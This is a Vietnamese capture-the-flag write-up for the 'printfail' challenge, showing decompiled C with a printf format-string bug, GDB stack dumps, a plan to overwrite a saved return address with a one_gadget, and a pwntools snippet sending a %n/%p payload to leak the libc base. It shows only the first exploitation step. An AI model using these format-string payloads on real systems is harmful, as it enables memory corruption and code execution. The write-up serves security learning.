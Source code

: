 # printfail

## IDA

```c
int __fastcall run_round(_DWORD *a1)
{
  memset(buf, 0, sizeof(buf));
  fflush(stdout);
  if ( !fgets(buf, 512, stdin) )
    return 0;
  *a1 = strlen(buf) <= 1;
  return printf(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("I'll let you make one printf call. You control the format string. No do-overs.");
  v4 = 1;
  while ( v4 )
  {
    if ( !(unsigned int)run_round(&v4) )
      return 0;
    if ( v4 )
      puts("...That was an empty string. Come on, you've at least gotta try!\nOkay, I'll give you another chance.");
  }
  return 0;
}
```

## Định hướng

Em được hint là ow giá trị v4 của while để ta có thể đưa nhiều payload của mình vào.
Đầu tiên em thấy khi nhập giá trị ở hàm fgets và kiểm tra stack, em thấy dữ liệu nhập vào không lưu trong stack:

```c
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555259 → run_round()
[#1] 0x5555555552d0 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail"         ← $rsp
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
0x007fffffffdc98│+0x0018: 0x005555555552d0  →  <main+60> test eax, eax
0x007fffffffdca0│+0x0020: 0x0000000100001000
0x007fffffffdca8│+0x0028: 0x6890f61163057300
0x007fffffffdcb0│+0x0030: 0x0000000000000001
0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
0x007fffffffdcc0│+0x0040: 0x0000000000000000
0x007fffffffdcc8│+0x0048: 0x00555555555294  →  <main+0> endbr64
```

Đến đây em khá bí và xin hint thì được hint là tìm cách thay đổi ret của hàm main là `c 0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax`
Em nghĩ là mình sẽ tìm địa chỉ stack nào đó có trỏ đến địa chỉ ret để thay đổi thành one_gadget.
Em tiếp tục tìm nhưng vẫn chưa thấy địa chỉ nào trỏ trực tiếp đến ret
Bí quá em xin hint và coi lại video 20 thì em thấy ở đây, có thể sử dụng để khai thác:

```c
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail" ,    ← $rsp  //here
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
```

thì các bước em khai thác như sau:

- dùng %n trỏ đến vị trí thứ 6, và ghi đè `0x007fffffffe064` thành `0x007fffffffdcb8` , khi đó tại `0x007fffffffddc8` ta có:

```c
0x007fffffffddc8 : 0x007fffffffdcb8  →  0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
```

- dùng %n trỏ đến vị trí thứ 43 đổi `0x007fffffffdcb8  →  0x007ffff7db5d90` thành one_gadget. okela
___
# Thực thi
Bước 1: ta sẽ tính toán để thay đổi v4,  nên là em sẽ ghi 8 vào vị trí thứ 7 là đã thay đổi giá trị v4  
![image](https://user-images.githubusercontent.com/111769169/224769758-d9f5f842-851b-479b-83e9-839ed89051a3.png)

Đầu tiên do file ko có hàm system nên ta sẽ phải leak libc.
Ta nên chọn vị trí 13 để leak vì nó là save rip của main và theo video 20 chú thích thì save rip nó tỉ lệ đúng hơn vì leak những thằng sau, khi chạy server nó là địa chỉ rác.

```python
    # %8c%7$n là để thoả điều kiện chạy loop để có thể input nhiều lần, nó đọc 8 kí tự từ %c và ghi vào 
    r.sendlineafter(b"do-overs.\n", b"%8c%7$n %13$p") 
    r.recvuntil(b"0x")
    leak = int(b"0x" + r.recvline(keepends=False), 16)
    libc.address = leak - 147587
    log.info("leak libc: " + hex(leak))
    log.info("leak base: " + hex(libc.address)) #leak libc tính địa chỉ base nè
```
